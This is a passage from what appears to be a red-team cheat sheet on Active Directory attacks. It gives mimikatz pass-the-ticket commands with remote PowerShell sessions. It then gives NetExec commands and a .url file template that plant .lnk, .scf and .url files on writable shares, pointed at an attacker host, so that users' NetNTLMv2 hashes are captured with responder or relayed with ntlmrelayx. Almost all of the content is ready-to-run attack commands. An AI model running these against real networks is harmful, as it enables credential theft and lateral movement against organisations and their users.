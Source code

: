 ```powershell
mimikatz # privilege::debug
mimikatz # kerberos::ptt TGS_XXX.kirbi 
klist
# Once we verify tickets are imported with klist, we can create our PSSession:
PS C:> New-PSSession -ComputerName server.domain.com
PS C:\> Enter-PSSession -ComputerName server.domain.com
```
{% endcode %}

## Coerce with files

{% hint style="info" %}
This needs a bot/user that opens the share (does not need a click) and write permissions over a share to upload files.
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.youtube.com/watch?v=b0lLxLJKaRs
https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/
https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/living-off-the-land
https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

nxc smb $IP -u $USER -p $PASS --shares # we find here a writable share

# slinky : .lnk file -> This module will drop an lnk file in every writable folder on the target server
nxc smb $IP -u $USER -p $PASS -M slinky -o NAME=thumbs.db SERVER=attacker_ip
# Now launch responder to be ready to catch NetNTLMv2 hash whenever a user clics on that .lnk file under the \\domain\share
# Obviously we could also do a ntlmrelayx to not smb signed server and get share access or admin access depending on the relayed authentication target.
# Cleanup
nxc smb $IP -u $USER -p $PASS -M slinky -o NAME=thumbs.db SERVER=attacker_ip CLEANUP=true

# .scf : scuffy (same as slinky but with scf file)
nxc smb $IP -u $USER -p $PASS -M scuffy -o NAME=thumbs.db SERVER=attacker_ip

# .url file
[InternetShortcut]
URL=http://click.me/pwned
WorkingDirectory=test
IconFile=\\ATTACKER_IP\share\file.icon
IconIndex=1
# Upload the file to the writable share and wait till that share is accessed by a user
```
{% endcode %}

## Webdav Coerce

